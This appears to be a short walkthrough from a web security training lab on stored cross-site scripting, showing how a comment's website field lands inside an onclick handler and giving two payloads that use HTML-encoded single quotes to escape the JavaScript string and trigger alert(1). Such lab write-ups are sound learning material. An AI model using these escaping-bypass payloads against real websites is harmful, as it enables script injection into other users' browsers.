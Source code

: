 Title: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Level: PRACTITIONER
Desc:  This lab contains a stored cross-site scripting vulnerability in the comment functionality.
To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

# Walkthrough:


<img width="634" height="471" alt="image" src="https://github.com/user-attachments/assets/8bb17987-9422-40fb-951b-bf763c583df5" />
string provided by website field is reflected on: 
```
<a id="author" href="https://website.com" onclick="var tracker={track(){}};tracker.track('https://website.com');">
```

payload to make this work: `http://foo?&apos;-alert(1)-&apos;` (add to website and url encode in burp)

<img width="1396" height="784" alt="image" src="https://github.com/user-attachments/assets/c4997472-1fda-449d-ae49-2453c145c33b" />

`http://foo?&apos;);alert(1);//`  - this payload also works
